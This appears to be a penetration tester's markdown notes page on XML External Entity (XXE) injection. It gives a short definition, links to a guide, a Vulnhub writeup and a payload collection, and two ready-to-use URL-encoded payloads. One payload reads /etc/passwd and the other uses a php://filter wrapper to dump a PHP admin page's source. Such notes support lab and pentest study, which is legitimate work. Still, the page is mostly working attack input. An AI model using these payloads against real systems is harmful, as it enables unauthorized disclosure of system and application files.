 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
  - FileTypesandData
---
```


# XML External Entity XXE Injection

XML External Entity (XXE) injection is a type of attack where an attacker can exploit vulnerabilities in an XML parser to disclose confidential data, execute remote code, or perform other malicious actions. This attack occurs when the XML input contains references to external entities that are processed by the XML parser.
## Guide

* [Exploitation: XML External Entity (XXE) Injection | Depth Security](https://www.depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection/)
* [Vulnhub - scarecrow writeup](https://blog.mzfr.me/vulnhub-writeups/2019-08-24-scare)
* Payloads may have to be double URL encoded
# Payloads

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

````
<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'file%3a///etc/passwd'>]><root><user>%26test%3b</user></root>
````
```
auth=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+root+[<!ENTITY+test+SYSTEM+'php://filter/convert.base64-encode/resource=/var/www/html/scarecrow/personal_secret_admin_page.php'>]><root><user>%26test%3b</user></root>
```
